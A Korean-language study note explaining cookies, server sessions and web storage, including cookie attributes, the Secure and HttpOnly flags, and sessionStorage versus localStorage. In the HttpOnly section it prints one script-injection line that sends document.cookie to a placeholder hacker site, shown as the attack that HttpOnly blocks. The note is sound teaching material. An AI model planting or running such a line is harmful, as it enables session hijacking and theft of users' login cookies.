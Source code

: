 # 쿠키, 세션, 웹 스토리지(세션/로컬)
HTTP의 특징은 비연결성(connectionless), 비상태성(stateless)이다.
서버의 자원을 절약하기 위해 사용자의 요청마다 연결과 해제를 하고, 연결 해제 후에는 상태 정보가 저장되지 않는다.  
하지만 로그인을 하면 로그인 상태를 계속 유지하는 등 사용자의 정보를 유지해야 하는 경우가 있다. HTTP의 비연결성, 비상태성을 보완하기 위해 사용되는 것이 바로 쿠키, 웹 스토리지(세션 스토리지, 로컬 스토리지)이다.
> 목차
> 1. [쿠키](#1-쿠키)
> 2. [세션](#2-세션)
> 3. [웹 스토리지(세션/로컬)](#3-웹-스토리지)

## 1. 쿠키
key, value 형태로 웹 브라우저에 정보를 저장하는 파일. 만료 기한이 있다. 문자열 형태로 저장된다.
- 사이트에 접속했을 때 서버가 응답(response) 헤더의 Set-Cookie에 정보를 설정해 보내면 브라우저가 그 부분을 쿠키 파일로 저장한다.
- 사용자가 웹사이트에 http 요청(request)을 할 때 마다 쿠키도 헤더의 Cookie 부분에 실려 매번 함께 보내진다.

### 특징
- 웹 브라우저마다 쿠키를 저장하는 위치와 방법은 다르므로 다른 브라우저에서 생성된 쿠키는 사용할 수 없다.
- 최대 4kB의 크기를 가질 수 있다.
- 클라이언트에 최대 300개 까지 쿠키를 저장할 수 있다.
- 도메인 하나당 최대 50개의 쿠키를 저장할 수 있다.

### 구성 요소
쿠키는 document.cookie 프로퍼티에 아래와 같은 문자열의 형태로 설정한다.
> "name=value; expires=[Date]; Domain=[Domain]; Path=[Path]; [Secure]; HttpOnly"

- **key, value**
- **만료기한**: 쿠키가 만료되는 때. expires(유효 일자)나 max-age(만료 기간)로 설정한다. 이 옵션이 지정되어있지 않으면, 브라우저가 닫힐 때 쿠키도 함께 삭제된다. 이런 쿠키를 "세션 쿠키(session cookie)"라고 부른다.
  - expires: GMT 형식으로 설정, 과거 날짜를 주면 쿠키가 삭제된다.
  - max-age: 초로 설정(예-3600), 음수값을 주면 쿠키가 삭제된다.
- **도메인**: 쿠키를 필요로 하는 웹 서버 도메인 (ex- google.com)
- **경로**: 쿠키를 필요로 하는 웹 페이지 경로명 (ex- / (웹사이트의 최상위))
- **플래그**: 보안을 위한 설정. Secure, HttpOnly가 있다.
  - Secure: HTTPS로 보안 통신하는 경우에만 쿠키가 전송된다.
  - HttpOnly: httpOnly 옵션은 웹서버에서 Set-Cookie 헤더로 쿠키를 설정할 때 지정할 수 있다. 자바스크립트 같은 클라이언트 측 스크립트가 쿠키를 사용할 수 없게 한다. document.cookie를 통해 쿠키를 볼 수도 없고 조작할 수도 없다.  
  다음과 같은 \<script>를 삽입해 쿠키를 알아내는 경우를 방지할 수 있다. 
    ```javascript
    location.href = 'http://해커사이트/?cookies=' + document.cookie;
    ```

### 단점
- 클라이언트 단에 저장되고, 암호화가 되어있지 않다. 임의 수정이나 가로채기가 발생할 수 있어 보안에 취약하다.  
  > *쿠키에는 민감하거나 중요한 정보를 담지 않는 것이 좋다.*
- 매 http 요청(request)마다 쿠키도 함께 포함되어 전송되므로 상당히 많은 트래픽이 소모된다.  
예를 들어 어떤 웹사이트에서 html, css, 이미지를 불러오기 위해 총 77번의 http 요청이 필요하다고 하자. 그러면 77번의 요청에 매번 최대 4kb의 크기를 갖는 쿠키가 포함되므로 불필요한 자원낭비가 생긴다.

### 사용 예
- 자동 로그인 (로컬 스토리지로도 구현할 수 있다)
- '7일간 이 화면 보지 않기'
- 장바구니
- 사용자의 행동 패턴 분석
- 광고 및 상품 추천

## 2. 세션
사용자 정보를 서버에 저장해 관리하는 것. 또는 브라우저와 웹 사이트가 연결된 상황을 지칭하기도 한다.  
두 가지 의미를 갖는 이유는, 세션이 서버에 사용자의 정보를 저장해 관리하고, 로그인 등으로 인증한 사용자에게는 세션 ID를 가진 쿠키를 주어 계속 정보에 접근할 수 있도록 하기 때문이다.
- 클라이언트가 로그인을 하면 서버가 아이디와 비밀번호를 검사해 유효성을 확인한다. 그 다음 unique한 session ID를 생성해 `set-cookie: sessionid=a1x2fjz`처럼 헤더에 쿠키로 실어 보낸다.
- 클라이언트는 서버에 요청(request)할 때마다 session ID를 `cookie: sessionid=a1x2fjz`의 형태로 자동으로 요청헤더에 추가해 요청하게된다.
- 서버에서는 요청헤더의 sessionid 값을 세션저장소에서 찾아보고 유효한지 확인한 후, 요청을 처리하고 응답한다.

### 특징
- 브라우저가 닫히는 순간 세션이 삭제된다. (세션 ID가 더이상 유효하지 않게 된다)
- 쿠키는 탈취와 변조가 가능하지만, 세션은 정보는 서버에 저장되어 있고 클라이언트 쪽에서는 세션 ID값만 가지고 있기 때문에 상대적으로 안전하다.
- 서버의 리소스(ex-RAM)가 기억하고 있는 것이기 때문에 저장 형태는 Object이다.
- 서버에서 정보를 저장하고 처리하기 때문에 내용이 너무 많으면 서버에 부담이 될 수 있고, 쿠키보다는 처리 속도가 느리다.

### 사용 예
로그인할 때 세션에 ID와 닉네임 등을 저장해놓으면 매 번 DB에서 조회할 필요가 없다.

## 3. 웹 스토리지
웹 스토리지에는 세션 스토리지와 로컬 스토리지가 있다. 둘의 차이는 저장 데이터를 다른 윈도우 창이 공유할 수 있느냐와 수명에 있다.  
웹 스토리지는 기존에 쿠키에 정보를 저장하면 http request마다 쿠키가 같이 전송된다는 단점을 보완할 수 있다.

### 특징
- key, value 형태의 문자열로 정보를 저장한다.
- 쿠키와 다르게 웹 스토리지 객체는 네트워크 요청 시 서버로 전송되지 않는다. 이런 특징 때문에 쿠키보다 더 많은 자료를 보관할 수 있다. (약 5MB정도)
- 웹 스토리지 객체는 origin에 묶여있다. (도메인·프로토콜·포트가 같아야 같은 origin). 따라서 프로토콜과 서브 도메인이 다르면 데이터에 접근할 수 없다.
- key는 중복될 수 없으며 key, value 문자열은 대소문자를 구분한다.
- 세션 스토리지와 로컬 스토리지는 동일한 Storage 인터페이스로 접근되므로 메서드도 동일하다.
- 쿠키와 다르게 서버가 HTTP 헤더를 통해 스토리지 객체를 조작할 수 없다. 웹 스토리지 객체 조작은 모두 자바스크립트로 이루어진다.

| 메서드               | 설명                                           |
|---------------------|------------------------------------------------|
| key(index)          | index번째에 저장된 key가 무엇인지 문자열 반환    |
| setItem(key, value) | `session/localStorage["key"] = "value"`와 동일  |
| getItem(key)        | key에 해당하는 value를 문자열로 반환. 없으면 null |
| removeItem(key)     | key의 아이템 삭제                               |
| clear()             | 스토리지의 모든 아이템 삭제                      |


![](../Images/Storage/storage-1.png)

### Session Storage
- 도메인마다 따로 생성된다.
- 같은 도메인이라도 윈도우마다 따로 생성된다.
- 윈도우(window 객체)가 닫히면 세션 스토리지도 삭제된다.
- 윈도우 복제로 생성된 경우, 스크립트를 이용해 새 창을 연 경우 같은 값을 가진 세션 스토리지가 "복제"된다.
- 새로 생성된 윈도우와 기존 윈도우의 세션 스토리지는 서로 영향을 주지 않는다.

### Local Storage
- 도메인마다 따로 생성된다.
- 하지만 같은 도메인, 예를 들면 google.com에 소속된 웹페이지는 모두 같은 로컬 스토리지를 공유한다.
- 지속기간에 제한이 없다. 사용자가 명시적으로 지우지 않는 한 영구적으로 저장된다.
- 도메인이 다르면 서로의 로컬 스토리지에 접근할 수 없다. (google.com과 naver.com은 서로의 로컬 스토리지에 접근할 수 없음)
- Cookie를 이용한 사이트 고유 설정 정보등을 대신하기에 적당하다.

### 사용 예
- sessionStorage - 장바구니
- localStorage - 라이트/다크 테마와 같은 사용자 설정

## Reference
- https://ko.javascript.info/cookie
- https://ko.javascript.info/localstorage
- [[Web] HTTP Only와 Secure Cookie 이해하기](https://nsinc.tistory.com/121)
- https://chrisjune-13837.medium.com/web-%EC%BF%A0%ED%82%A4-%EC%84%B8%EC%85%98%EC%9D%B4%EB%9E%80-aa6bcb327582
- https://croute.me/419